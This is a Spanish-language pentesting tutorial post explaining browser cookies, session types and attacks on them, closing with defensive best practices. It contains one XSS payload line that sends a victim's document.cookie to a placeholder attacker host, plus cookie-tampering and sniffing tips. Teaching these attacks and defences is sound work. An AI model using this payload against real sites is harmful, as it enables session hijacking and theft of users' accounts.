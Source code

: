 
---
title: "Cookies y Sesiones: El rastro dulce (y peligroso) del navegador"
author: "l1ttl3bugc4t"
date: "2025-05-12"
tags: [Cookies, Sesiones, Seguridad Web, Pentesting, Red Team]
categories: [Cuaderno, Red Team & Chill, CyberChallenges]
---

Las **cookies** no solo son dulces digitales 🍪, también son una de las piezas clave para mantener sesiones, rastrear usuarios y… **atacar apps web** 😼🔥

---

## 🧠 ¿Qué es una Cookie?

Una **cookie** es un pequeño archivo que un servidor web guarda en tu navegador.  
Puede contener:
- ID de sesión
- Preferencias del usuario
- Tokens de autenticación
- Información de seguimiento (¡hola, trackers!)

---

## 📦 Tipos de Cookies

| Tipo | Descripción |
|------|-------------|
| **De sesión** | Se eliminan al cerrar el navegador |
| **Persistentes** | Tienen fecha de expiración definida |
| **HttpOnly** | No pueden ser accedidas por JavaScript |
| **Secure** | Solo se transmiten por HTTPS |
| **SameSite** | Protegen contra CSRF limitando el envío de cookies entre sitios |

---

## 🔐 ¿Qué es una sesión?

Una **sesión** es el estado temporal que mantiene el servidor sobre un usuario autenticado.  
Generalmente se identifica mediante un **cookie de sesión**, como:

```
sessionid=QwErTy1234567890
```

---

## 🧪 ¿Qué puedes hacer con cookies en un pentest?

### 1. **Robo de sesión (Session Hijacking)**

Si capturas la cookie de sesión puedes suplantar al usuario.  
Ej: a través de un XSS que haga:

```javascript
document.location='http://tu-ip?cookie='+document.cookie;
```

---

### 2. **Fuerza bruta de cookies**

Algunos sitios generan cookies con patrones predecibles o codificados en base64.  
Puedes decodificar y manipular valores como:

```
admin=false → admin=true
```

---

### 3. **Cookie tampering / manipulación**

Cookies mal protegidas pueden permitir elevar privilegios, cambiar idiomas o inyectar SQL en endpoints mal filtrados.

---

### 4. **Análisis de atributos inseguros**

Busca cookies **sin HttpOnly** o **sin Secure** transmitidas por HTTP:  
¡son carne de cañón para sniffing con Wireshark o mitmproxy!

---

## 🛠️ Herramientas útiles

- 🧪 `Burp Suite` → Para ver, editar y repetir peticiones con cookies
- 🐍 `Python` con `requests` → Para automatizar tests de sesión
- 🔎 `Wireshark` → Para capturar cookies en tráfico sin cifrar
- 🔐 `cookie-parser` (Node.js) → Si estás auditando código backend

---

## 🔐 Buenas prácticas (para defender)

- Usa `Secure` y `HttpOnly`
- Implementa `SameSite=Strict` si no hay login entre sitios
- Expira la cookie al cerrar sesión
- Regenera el ID de sesión tras iniciar sesión
- No almacenes datos sensibles directamente en cookies

---

## 🚀 Conclusión

Las cookies no son peligrosas en sí mismas, pero mal usadas pueden ser el **punto de entrada perfecto** para un atacante astuto.  
Como l1ttl3bugc4t… ¡siempre observa los snacks que te deja el servidor! 🍪👁️‍🗨️

> ✨ _"Una sesión es confianza temporal. Una cookie mal hecha... es traición."_ — **l1ttl3bugc4t**

---
